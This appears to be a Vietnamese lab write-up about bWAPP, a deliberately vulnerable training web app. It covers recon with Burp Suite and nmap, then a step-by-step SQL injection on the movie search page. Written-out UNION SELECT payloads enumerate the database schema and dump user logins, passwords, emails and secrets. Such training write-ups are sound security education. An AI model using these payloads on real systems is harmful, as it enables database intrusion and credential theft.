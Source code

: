 # bWAPP
bWAPP là một ứng dụng web miễn phí và mã nguồn mở, được cố tình tạo ra với các lỗ hổng bảo mật. Nó giúp những người đam mê bảo mật, nhà phát triển và sinh viên khám phá và phòng ngừa các lỗ hổng web.

bWAPP chuẩn bị cho người dùng thực hiện các dự án kiểm thử xâm nhập và hack có đạo đức một cách thành công.

Điều gì khiến bWAPP trở nên độc đáo? Nó có hơn 100 lỗ hổng web! bWAPP bao gồm tất cả các lỗi web chính được biết đến, bao gồm mọi rủi ro từ dự án OWASP Top 10.

bWAPP là một ứng dụng PHP sử dụng cơ sở dữ liệu MySQL. Nó có thể được lưu trữ trên Linux/Windows với Apache/IIS và MySQL. Nó cũng có thể được cài đặt bằng WAMP hoặc XAMPP.

# Information Gathering
Dù được công bố sẵn những thông tin quan trọng về cơ sở dữ liệu (MySQL), web server (Apache) và hệ điều hành máy chủ (localhost - Kali Linux), chúng ta vẫn có thể tự xác nhận lại một số thông tin khi sử dụng BurpSuite để can thiệp vào các gói tin được gửi đi.

![alt text](images/59.png)

Ví dụ ta có thể xác định được IP host với `Host: 127.0.0.1`. Từ đây có thể sử dụng nmap với câu lệnh dạng như `nmap -sV 127.0.0.1`. Sau khi quét ta có thể biết được host đang sử dụng MySQL và Apache.

![alt text](images/60.png)

Việc xác định loại cơ sở dữ liệu rất quan trọng vì mỗi loại cơ sở dữ liệu sẽ có syntax riêng trên query, ví dụ như MySQL sẽ sử dụng `#` để đánh dấu phần bình luận trên query nhưng các loại cơ sở dữ liệu khác không thể làm điều này.

# SQL Injection (GET/Search) - security level: low
## Một số thông tin bổ sung
Khi thực hiện một tìm kiếm thử với từ khoá `re`, ta có thể thấy một số parameter sẽ xuất hiện trên url, trong đó `title` sẽ lấy thông tin đầu vào do người dùng nhập và `action` sẽ chọn thao tác thực hiện. Sau khi thực hiện tìm kiếm, trang web sẽ trả về một bảng chứa thông tin về các bộ phim có `Title` chứa thông tin người dùng truyền vào. Nếu từ khoá tìm kiếm là `'`, trang web sẽ trả về thông báo lỗi liên quan đến SQL syntax.

Từ đây ta có thể suy đoán được một số thông tin như sau:
- Trang web sử dụng một cơ sở dữ liệu MySQL.
- Trang web sử dụng một số parameter để lọc thông tin được lấy từ CSDL, nếu thông tin được truyền vào `title` là `'` sẽ trả về lỗi. => tồn tại lỗ hổng SQLi.
- Trang web sử dụng Cookie để xác định quyền người dùng. => có thể tồn tại một bảng trong cơ sở dữ liệu chứa các thông tin người dùng.
- Cơ sở dữ liệu của trang web có thể sẽ thực hiện một query như sau mỗi khi người dùng thực hiện tìm kiếm:
```sql
SELECT * FROM <table of database> WHERE Title LIKE '<title>';
```

## Các bước thực hiện
1. Xác định số cột:
- Thực hiện tìm kiếm với nội dung `' order by 1#`, sau đó tăng dần giá trị. Việc này có thể được thực hiện tự động và nhanh chóng hơn với Burp Intruder.
- Thực hiện đến khi trang web trả về thông báo lỗi, ở đây là 8, tức số cột được lấy ra là 7 (nhỏ hơn 8).
- Tìm kiếm với thông tin `' AND 1=0 UNION SELECT 1,2,3,4,5,6,7#`, ta sẽ biết được phần bảng trang web trả về sẽ hiển thị các cột 2,3,5,4.


![alt text](images/63.png)

2. Xác định tên các bảng trên cơ sở dữ liệu:
- Thực hiện tìm kiếm với thông tin:<br>
```' and 1=0 UNION SELECT 1,table_schema, table_name,4,5,6,7 FROM information_schema.tables#```
    - `and 1=0`: sử dụng điều kiện sai để loại bỏ các thông tin bình thường trang web sẽ trả về (không quan trọng).
    - `UNION SELECT`: nối thông tin với một bảng khác.
    - `1,table_schema, table_name,4,5,6,7 FROM information_schema.tables`: chọn đủ 7 cột (số cột yêu cầu) và lấy thông tin về `table_schema, table_name` từ `information_schema.tables` (hiển thị tên tất cả các bảng).
    - `#`: biến phần còn lại của query gốc thành nội dung bình luận.
- Ta xác định được bảng có khả năng chứa thông tin nhạy cảm là `users`.

![alt text](images/61.png)

3. Xác định tên cột trong bảng `users`:
- Thực hiện tìm kiếm với thông tin:<br>
```' and 1=0 UNION SELECT 1,table_name,column_name,4,5,6,7 FROM information_schema.columns WHERE table_name='users'#```

![alt text](images/62.png)

4. Tìm kiếm các thông tin nhạy cảm:
- Thực hiện tìm kiếm với thông tin:<br>
```' and 1=0 UNION SELECT 1,login,password,email,secret,6,7 FROM users#```

![alt text](images/64.png)


